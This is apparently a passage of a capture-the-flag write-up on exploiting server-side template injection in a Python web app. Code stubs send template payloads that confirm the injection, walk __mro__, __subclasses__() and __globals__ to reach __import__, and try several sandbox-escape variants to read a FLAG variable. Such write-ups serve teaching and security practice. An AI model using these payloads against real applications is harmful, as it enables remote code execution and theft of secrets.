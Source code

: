 ### 2. SSTI Confirmation
We confirm the SSTI vulnerability by testing basic template injection:

```python
def test_ssti():
    url = f"{TARGET}/preview"
    payload = {"template": "{{ 7 * 7 }}"}
    response = session.post(url, json=payload)
```

### 3. Sandbox Testing
We test if the environment is sandboxed by trying to access various objects:

```python
def test_sandbox():
    tests = [
        {"template": "{{ username }}", "expected": USERNAME},
        {"template": "{{ username.__class__ }}", "expected": "<class 'str'>"},
        {"template": "{{ request }}", "expected": "Request"},
    ]
```

### 4. Finding Useful Subclasses
We enumerate Python subclasses to find useful ones for exploitation:

```python
def find_subclass_index():
    payload = {"template": "{{ ''.__class__.__mro__[1].__subclasses__() }}"}
    # Parses the response to find useful classes like 'function' or 'warnings.catch_warnings'
```

### 5. Direct Flag Extraction
Attempt to directly access the FLAG variable through the template:

```python
def extract_flag_directly(index):
    payload = {
        "template": f"{{ ''.__class__.__mro__[1].__subclasses__()[{index}].__init__.__globals__['__builtins__']['__import__']('__main__').FLAG }}"
    }
```

### 6. Sandbox Bypass Attempts
If direct extraction fails, try various sandbox bypass techniques:

```python
def extract_flag_sandbox():
    payloads = [
        {"template": "{{ request.application.__self__.__dict__.get('FLAG') }}"},
        {"template": "{{ config.__class__.__init__.__globals__['__builtins__']['__import__']('__main__').FLAG }}"},
        {"template": "{{ g.__init__.__globals__['__builtins__']['__import__']('__main__').FLAG }}"}
    ]
```
